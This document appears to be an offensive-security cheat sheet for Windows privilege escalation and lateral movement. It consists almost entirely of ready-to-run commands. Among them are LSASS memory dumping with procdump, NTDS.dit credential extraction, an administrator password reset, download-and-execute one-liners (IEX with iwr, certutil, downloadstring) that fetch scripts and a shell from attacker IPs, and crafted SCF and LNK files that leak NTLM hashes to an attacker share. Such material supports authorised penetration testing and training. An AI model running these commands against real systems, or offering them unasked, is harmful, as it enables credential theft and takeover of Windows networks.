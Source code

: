 ```yaml
---
description: >-
  After gaining a foothold, elevating our privileges will provide more options
  for persistence and may reveal information stored locally that can further our
  access within the environment.
---
```


# Windows Privilege Escalation

#### Enumeration

<details>

<summary>Basic commands</summary>

```bash
# IP
ipconfig /all

# ARP
arp -a

# Route
route print

# Running processes
tasklist /svc

# Enviroment variables
set

# Systeminfo
systeminfo

# Show hotfixes
wmic qfe

# Installed programs
wmic product get name
```

</details>

```bash
# Installed programs
wmic product get name

# Netstat -ano
netstat -ano
netstat -ano | findstr 6064

# Check privileges
whoami /priv

# Check groups
whoami /groups

# Get all users
net user

# Details group
net localgroup administrators

# Robocopy copy files
robocopy /B E:\Windows\NTDS .\ntds ntds.dit
```

#### Lateral movemnt

```bash
# Check group members
net localgroup administrators

# Runas
runas /netonly /user:ZENCORP\username powershell

# Change administrator password
net user Administrator test123
```

#### Enumeration Powershell

```powershell
# Windows defender status
Get-MpComputerStatus

# Get hotfixes
Get-HotFix | ft -AutoSize

# Install programs
Get-WmiObject -Class Win32_Product |  select Name, Version

# Get process
get-process -Id 3324
```

#### Powershell

```powershell
# Use mssqclient
mssqlclient.py sql_dev@10.129.43.30 -windows-auth

# Use procdump for memory dump
procdump.exe -accepteula -ma lsass.exe lsass.dmp

# Extracting Credentials from NTDS.dit
Import-Module .\DSInternals.psd1
$key = Get-BootKey -SystemHivePath .\SYSTEM
Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key

# Query events command line
wevtutil qe Security /rd:true /f:text | Select-String "/user"

# Host a script and run on target
IEX (iwr 'http://10.10.10.11/procmon.ps1') 

# Transfer file
certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat
```

#### Use Responder or Inveight  to capture hashes with malicious .lnk or .scf file

Malicious SCF File

```bash
# Save as @name.scf
/[Shell]
Command=2
IconFile=\\10.10.14.3\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```

Malicious LNK File

```powershell
# Create in powershell
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\legit.lnk")
$lnk.TargetPath = "\\<attackerIP>\@pwn.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

#### SharpHound

```powershell
# Download ps1 file
iex(new-object net.webclient).downloadstring("http://10.10.14.6/SharpHound.ps1")

# Collect
invoke-bloodhound -collectionmethod all -domain zen.local -ldapuser username -ldappass password
```

#### Bloodhound-python&#x20;

```bash
bloodhound-python -d zen.local -u username -p password-gc zen.local -c all -ns 10.10.10.22
```

#### Windows privileges

* Fullpowers: [https://github.com/itm4n/FullPowers](https://github.com/itm4n/FullPowers)
* PrintSpoofer: [https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
* GodPotato: [https://github.com/BeichenDream/GodPotato](https://github.com/BeichenDream/GodPotato)
* JuicyPotato: [https://github.com/ohpe/juicy-potato](https://github.com/ohpe/juicy-potato)

#### Dump a process with ProcDump

```powershell
# Procdump
.\procdump64 -ma 6252 -accepteula

# or with powersploit
Out-Minidump.ps1
menu
get-process -id 6252 | Out-Minidump
```



